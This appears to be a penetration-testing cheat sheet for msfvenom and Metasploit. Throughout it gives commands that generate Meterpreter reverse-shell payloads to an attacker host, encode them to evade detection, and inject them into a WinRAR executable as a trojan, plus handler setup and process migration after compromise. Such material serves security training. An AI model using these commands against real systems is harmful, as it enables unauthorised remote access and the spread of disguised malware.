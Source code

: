 # MSFVenom

#### List out available payload

* "<mark style="color:yellow;">msfvenom --list payloads</mark>"

We will be focusing on the meterpreter payload.

### Difference between non staged and staged payloads

A non staged payload would be for example:

* "<mark style="color:yellow;">windows/x64/meterpreter\_reverse\_tcp</mark>"

While a staged payload would be:

* "<mark style="color:yellow;">windows/x64/meterpreter/reverse\_tcp</mark>"

The difference is in the name, showcasing the fact that a non-staged is sent together with the exploit.

### Generate a 32-bit Windows payload with Msfvenom

* "<mark style="color:yellow;">msfvenom -a x86 -p windows/meterpreter/reverse\_tcp LHOST=attackerIP LPORT=porttoconnectto -f exe > /home/kali/Desktop/'name</mark>'"
  * "<mark style="color:red;">-a</mark>": Target OS Architecture
  * "<mark style="color:red;">-p</mark>": Payload to use
  * "<mark style="color:red;">-f</mark>": Format of the payload

<mark style="color:purple;">NOTE:</mark> When outputting the payload, always specifiy the <mark style="color:red;">EXTENSION</mark> you gave it in the name of the file

### Generating a 64-bit payload

* "<mark style="color:yellow;">msfvenom -a x64 -p windows/x64/meterpreter/reverse\_tcp LHOST=attackerIP LPORT=porttoconnectto -f exe > /home/kali/Desktop/'name.ext</mark>'"

<mark style="color:purple;">NOTE:</mark> When outputting the payload, always specifiy the <mark style="color:red;">EXTENSION</mark> you gave it in the name of the file

### List Output format available

* "<mark style="color:yellow;">msfvenom --list formats</mark>"

### Generate Linux Payloads

* "<mark style="color:yellow;">msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=attackerIP LPORT=connecto -f elf > 'locationandname</mark>'

To execute it give it executable permission with "<mark style="color:red;">chmod</mark>".

### Set the platform for the payload

* <mark style="color:yellow;">--platform</mark>

## Setting up a handler&#x20;

A handler is necessary to receive the reverse tcp connection from the target system

### Using msfconsole

* "<mark style="color:yellow;">use multi/handler</mark>"
* "<mark style="color:yellow;">set payload 'payload specified in msfvenom'</mark>"

<mark style="color:purple;">NOTE:</mark> The payload in the handler has to be the same as when creating the payload with msfvenom.

Set the LHOST and LPORT options

### List Encoders

* "<mark style="color:yellow;">msfvenom --list encoders</mark>"

### Generate an encoded Windows x86 payload

* "<mark style="color:yellow;">msfvenom -p windows/meterpreter/reverse\_tcp LHOST=ATTACKERIP LPORT=PORT -e x86/shikata\_ga\_nai -f exe > 'nameofpayload.extension'</mark>"

### Defining the number of iterations to encode

Add the "<mark style="color:red;">-i</mark>" flag and the number of iterations

Recommended is 10.

### Generate an encoded Linux x86 payload

* "<mark style="color:yellow;">msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=ATTACKERIP LPORT=PORT -i 10 -e x86/shikata\_ga\_nai -f elf > 'nameoffile.extension'</mark>"

Don't forget to setup the msf multi/Handler to receive the connection

WinRar is very good to inject payloads into.

### Generating and injecting the payload

&#x20;Download the WinRar 32-bit executable from the website

* "<mark style="color:yellow;">msfvenom -p /windows/meterpreter/reverse\_tcp LHOST=ATTACKERIP LPORT=PORT -e x86/shikata\_ga\_nai -i 10 -f exe -x 'specifywinrarexe > 'nameoffile.extension'</mark>"

#### Setting up the multi/handler

* "<mark style="color:yellow;">use multi/handler</mark>"

Set the payload to the same as the created payload

<mark style="color:purple;">NOTE:</mark> You can keep the original functionality of the used executable with the flag "<mark style="color:red;">-k</mark>".

After getting a meterpreter session in the target machine run the module <mark style="color:red;">post/windows/manage/migrate</mark>, to migrate to a more stable process.

* <mark style="color:yellow;">run post/windows/manage/migrate</mark>

### Maintaining the functionality of the portable executable

<mark style="color:yellow;">msfvenom -p /windows/meterpreter/reverse\_tcp LHOST=ATTACKERIP LPORT=PORT -e x86/shikata\_ga\_nai -i 10 -f exe -x -k 'specifywinrarexe > 'nameoffile.extension'</mark>

<mark style="color:purple;">NOTE:</mark> Most portable executables don't work with this flag







